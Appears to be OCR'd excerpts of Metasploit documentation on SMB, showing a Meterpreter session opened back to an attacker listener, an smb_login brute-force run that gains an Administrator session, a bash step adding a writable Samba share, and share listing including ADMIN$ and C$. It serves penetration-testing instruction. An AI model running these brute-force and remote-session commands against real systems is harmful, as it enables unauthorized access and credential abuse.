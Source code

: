 ```msf
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```

`msf
msf6 > search smb
`

`msf
msf6 > search session_type:smb
`

`bash
cat << EOF >> /etc/samba/smb.conf
[foo_share]
    comment = Foo samba share
    path = /tmp/foo
    read only = no
    browsable = yes
EOF
`

`msf
msf6 auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
`

`msf
[*] 172.14.2.164:445    - 172.14.2.164:445 - Starting SMB login bruteforce
[+] 172.14.2.164:445    - 172.14.2.164:445 - Success: 'windomain.local\username:password' Administrator
[*] SMB session 1 opened (172.16.158.1:62793 -> 172.14.2.164:445) at 2024-03-12 17:03:09 +0000
[*] 172.14.2.164:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...
`

`msf
msf6 auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...

SMB (172.14.2.164) > shares
Shares
======

    #  Name    Type          comment
    -  ----    ----          -------
    0  ADMIN$  DISK|SPECIAL  Remote Admin
    1  C$      DISK|SPECIAL  Default share
    2  foo     DISK
    3  IPC$    IPC|SPECIAL   Remote IPC
